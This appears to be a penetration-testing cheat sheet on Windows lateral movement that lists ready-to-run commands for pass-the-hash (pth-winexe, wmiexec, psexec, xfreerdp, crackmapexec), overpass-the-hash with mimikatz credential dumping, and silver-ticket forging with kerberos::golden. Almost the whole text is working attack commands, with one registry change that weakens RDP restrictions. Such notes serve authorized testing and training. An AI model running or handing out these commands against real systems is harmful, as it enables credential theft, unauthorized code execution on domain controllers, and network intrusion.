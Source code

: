 Pass-the-Hash
* Requires pw-hash user to have local admin rights on target, as connection is made using the `Admin$` share.
* Requires SMB connection through the firewall
* Requires Windows File and Print Sharing feature to be enabled.
```
# Method 1
$ pth-winexe -U [domain]/[username]%[blank_hash]:[ntlm_hash] //[target] [command_to_exec]
$ pth-winexe -U xor/Administrator%aad3b435b51404eeaad3b435b51404ee:08df31234567890bf6 //10.1.1.1 cmd.exe
^OR try without domain prefix in -U flag

# Method 2
$ python wmiexec.py Administrator@[target] -hashes [LM]:[NT/NTLM]
$ python wmiexec.py Administrator@10.11.1.22 -hashes [leavebankifnoLM]:ee12345067801f38115019ca2fb

# Method 3
$ python psexec.py [username]@[target] -hashes :[NT/NTLM]

# Method 4 - RDP PTH
$ xfreerdp /u:Administrator /pth:[NTLM hash] /d:[domain] /v:[target]
^If error occurs "Account Restrictions are preventing this user from signing in.” enable Restricted Admin Mode:
$ crackmapexec smb [target] -u [username] -H [hash] -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'

# Method 5 - see guide https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/
$ crackmapexec smb [target] -u [username] -H [hash] -x "whoami" 
```

Overpass-the-Hash
* "over" abuse a NTLM hash to gain a full Kerberos TGT or Service Ticket.
* Requires pw-hash user to have local admin rights on target to run `psexec.exe`.
```
mimikatz > sekurlsa::logonpasswords    # obtain NTLM hash
mimikatz > sekurlsa::pth               # turn hash into Kerberos ticket
        /user:[user_name] 
        /domain:[domain_name]
        /ntlm:[hash_value]
        /run:PowerShell.exe
PS> net use \\dc01                     # generate TGT by authN to network share on the DC
PS> klist                              # view TGT/TGS tickets
PS> .\PsExec.exe \\dc01 cmd.exe        # code exec on the DC
```

Pass the Ticket
* Takes advantage of the TGS, by forging our own Service Ticket to access the target resource (service account) with any permissions.
* Does NOT require admin privs if Service Tickets belong to current user.
```
# obtain SID of domain (remove RID -XXXX) at the end of the user SID string.
cmd> whoami /user
corp\offsec S-1-5-21-1602875587-2787523311-2599479668[-1103]

# generate the Silver Ticket and inject it into memory
mimikatz > kerberos::golden /user:[user_name] /domain:[domain_name] /sid:[sid_value] 
        /target:[service_hostname] /service:[service_type] /rc4:[hash] /ppt
```
